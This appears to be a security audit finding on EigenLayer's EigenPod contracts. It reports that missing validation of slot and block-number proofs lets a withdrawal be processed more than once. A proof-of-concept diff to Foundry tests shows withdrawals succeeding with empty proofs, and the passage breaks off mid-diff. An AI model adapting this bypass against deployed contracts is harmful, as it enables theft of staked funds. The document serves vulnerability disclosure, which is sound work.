 Insufficient validation of proofs allows multiple withdrawals, i.e. theft of funds.
Proof of Concept

The changes to the EigenPod test cases below demonstrate the following outcomes:
testFullWithdrawalProof: BeaconChainProofs.verifyWithdrawalProofs(beaconStateRoot, proofs, withdrawalFields) still succeeds on empty slot and block number proofs.
testFullWithdrawalFlow: EigenPod.verifyAndProcessWithdrawal(withdrawalProofs, …) allows full withdrawal with empty slot and block number proofs.
testPartialWithdrawalFlow: EigenPod.verifyAndProcessWithdrawal(withdrawalProofs, …) allows partial withdrawal with empty slot and block number proofs.
testProvingMultipleWithdrawalsForSameSlot: EigenPod.verifyAndProcessWithdrawal(withdrawalProofs, …) allows partial withdrawal of the same funds twice due to different slotRoot in original and modified proof.

The proofIsForValidBlockNumber(Endian.fromLittleEndianUint64(withdrawalProofs.blockNumberRoot)) modifier is bypassed (see blockNumberRoot) in the latter three of the above test cases.

Apply the following diff to your src/test/EigenPod.t.sol and run the tests with forge test --match-contract EigenPod:

diff --git a/src/test/EigenPod.t.sol b/src/test/EigenPod.t.sol
index 31e6a58..5242def 100644
--- a/src/test/EigenPod.t.sol
+++ b/src/test/EigenPod.t.sol
@@ -260,7 +260,7 @@ contract EigenPodTests is ProofParsing, EigenPodPausingConstants {

     function testFullWithdrawalProof() public {
         setJSON("./src/test/test-data/fullWithdrawalProof.json");
-        BeaconChainProofs.WithdrawalProofs memory proofs = _getWithdrawalProof();
+        BeaconChainProofs.WithdrawalProofs memory proofs = _getWithdrawalProof(SKIP_SLOT_BLOCK_PROOF);
         withdrawalFields = getWithdrawalFields();
         validatorFields = getValidatorFields();

@@ -281,7 +281,7 @@ contract EigenPodTests is ProofParsing, EigenPodPausingConstants {

         // ./solidityProofGen "WithdrawalFieldsProof" 61336 2262 "data/slot_43222/oracle_capella_beacon_state_43300.ssz" "data/slot_43222/capella_block_header_43222.json" "data/slot_43222/capella_block_43222.json" fullWithdrawalProof.json
         setJSON("./src/test/test-data/fullWithdrawalProof.json");
-        BeaconChainProofs.WithdrawalProofs memory withdrawalProofs = _getWithdrawalProof();
+        BeaconChainProofs.WithdrawalProofs memory withdrawalProofs = _getWithdrawalProof(SKIP_SLOT_BLOCK_PROOF);
         bytes memory validatorFieldsProof = abi.encodePacked(getValidatorProof());
         withdrawalFields = getWithdrawalFields();
         validatorFields = getValidatorFields();
@@ -317,7 +317,7 @@ contract EigenPodTests is ProofParsing, EigenPodPausingConstants {
         //generate partialWithdrawalProofs.json with:
         // ./solidityProofGen "WithdrawalFieldsProof" 61068 656 "data/slot_58000/oracle_capella_beacon_state_58100.ssz" "data/slot_58000/capella_block_header_58000.json" "data/slot_58000/capella_block_58000.json" "partialWithdrawalProof.json"
         setJSON("./src/test/test-data/partialWithdrawalProof.json");
-        BeaconChainProofs.WithdrawalProofs memory withdrawalProofs = _getWithdrawalProof();
+        BeaconChainProofs.WithdrawalProofs memory withdrawalProofs = _getWithdrawalProof(SKIP_SLOT_BLOCK_PROOF);
         bytes memory validatorFieldsProof = abi.encodePacked(getValidatorProof());
